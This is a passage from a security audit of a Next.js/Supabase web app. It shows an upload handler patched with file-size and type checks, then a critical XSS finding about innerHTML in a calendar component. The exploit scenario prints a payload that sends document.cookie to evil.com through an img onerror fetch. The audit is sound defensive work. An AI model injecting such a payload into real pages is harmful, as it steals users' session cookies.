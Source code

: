 ```typescript
    }

    const token = authHeader.split(' ')[1];
    const supabase = createClient(supabaseUrl, supabaseServiceRoleKey);
    const { data: { user }, error: authError } = await supabase.auth.getUser(token);
    
    if (authError || !user) {
      return NextResponse.json({ error: 'Invalid authentication' }, { status: 401 });
    }

    const { imageData, filename } = await request.json();
    
    // ✅ ADD FILE SIZE VALIDATION
    if (!imageData || imageData.length > 10 * 1024 * 1024) { // 10MB max
      return NextResponse.json({ error: 'Invalid file size' }, { status: 400 });
    }
    
    // ✅ ADD FILE TYPE VALIDATION
    const mimeType = imageData.match(/data:([^;]+)/)?.[1] || 'image/jpeg';
    const allowedTypes = ['image/jpeg', 'image/png', 'image/gif', 'image/webp'];
    if (!allowedTypes.includes(mimeType)) {
      return NextResponse.json({ error: 'Invalid file type' }, { status: 400 });
    }
    
    // Rest of upload logic...
  }
}
```

---

### ❌ CRITICAL #2: XSS Vulnerability via innerHTML
**Location:** `/src/components/MonthViewCalendar.tsx` (Lines 476 & 513)  
**Severity:** CRITICAL  
**CWE:** CWE-79 (Cross-Site Scripting)

**Issue:**
```typescript
// Lines 476 & 513: Direct innerHTML manipulation
parent.innerHTML = `
  <div class="w-full h-full bg-gray-200 flex items-center justify-center">
    <svg class="w-3 h-3 text-gray-400" fill="currentColor" viewBox="0 0 20 20">
      <path d="M4 3a2 2 0 00-2 2v10a2 2 0 002 2h12a2 2 0 002-2V5a2 2 0 00-2-2H4zm12 12H4l4-8 3 6 2-4 3 6z"/>
    </svg>
  </div>
`;
```

**Exploit Scenario:**
If any user-controlled data ever gets into this flow (file names, alt text, etc.), an attacker could inject:
```html
<img src=x onerror="fetch('https://evil.com/steal?cookie='+document.cookie)">
```
